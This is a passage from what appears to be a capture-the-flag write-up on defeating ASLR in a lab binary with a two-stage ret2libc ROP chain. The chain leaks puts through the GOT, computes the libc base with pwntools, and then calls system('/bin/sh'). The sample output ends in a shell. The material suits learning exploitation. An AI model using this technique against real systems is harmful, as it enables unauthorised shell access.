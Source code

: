 This can be seen in `libc_base = leaked_puts - libc.symbols['puts']`.

`libc.address = libc_base` <mark style="color:yellow;">means that we are using a pwntools shortcut</mark> so it will _automagically_ add the offset so you do not have to keep adding the `libc` base to everything.

(e.g.) `libc_base + 0x12b5`

Keeping in mind that addresses obtained from `libc` are offsets from the `libc` base.

So, <mark style="color:yellow;">all together, we need</mark>:

1. `Offset` `('A'*56)`
2. `&pop rdi; ret`
3. `&puts@GLIBC`
4. `&main()`
5. `Offset` `('A'*56)`
6. `&ret`
7. `&pop rdi; ret`
8. `&system("/bin/sh, \x00")`

### Result

We successfully get a shell!

```
[*] Loaded 14 cached gadgets for './aslr1'
hex(ret)='0x401016'
[*] Stage 1 ROP Chain:
    0x0000:         0x40120b pop rdi; ret
    0x0008:         0x404018 [arg0] rdi = got.puts
    0x0010:         0x401030 puts
    0x0018:         0x401142 0x401142()
[+] Leaked puts@GLIBC: 0x7ff4e0680e50
[*] Loaded 219 cached gadgets for '/lib/x86_64-linux-gnu/libc.so.6'
[*] Stage 2 ROP Chain:
    0x0000:   0x7ff4e062a3e5 pop rdi; ret
    0x0008:   0x7ff4e07d8698 [arg0] rdi = 140689715070616
    0x0010:   0x7ff4e0650d70 system
[*] Switching to interactive mode
So, you think you can bypass the almighty ASLR protection?
$ 
```
